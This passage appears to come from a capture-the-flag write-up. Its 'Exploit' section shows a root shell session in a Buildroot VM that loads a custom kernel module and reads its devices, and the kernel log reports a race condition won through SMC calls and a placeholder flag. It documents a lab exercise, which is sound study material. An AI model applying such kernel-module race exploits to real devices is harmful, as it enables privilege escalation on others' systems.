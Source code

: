 ![image-20250314162910063](images/image-20250314162910063.png)

## Exploit

```bash
Welcome to Buildroot, type root or test to login
buildroot login: root
# mkdir /mnt/shared && mount -t 9p -o trans=virtio hostshare /mnt/shared
# insmod /mnt/shared/smc_driver.ko
# cat /dev/step1_driver 
cat: read error: Invalid argument
# cat /dev/step2_driver 
cat: read error: Invalid argument
# dmesg
...
[   24.694680] smc_driver: loading out-of-tree module taints kernel.
[   24.700790] SMC Driver: Initializing the driver
[   24.702449] SMC Driver: Device created successfully
[   31.985097] Step1: Device opened
[   31.986342] SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x423dc008
[   31.988060] func2 is running on CPU 2
[   31.989497] func1 is running on CPU 1
[   31.990671] Step1: Device closed
[   31.991532] Condition successed!
[   35.817774] Step2: Device opened
[   35.818487] flag: flag{123123123123}
[   35.819386] Step2: Device closed
```
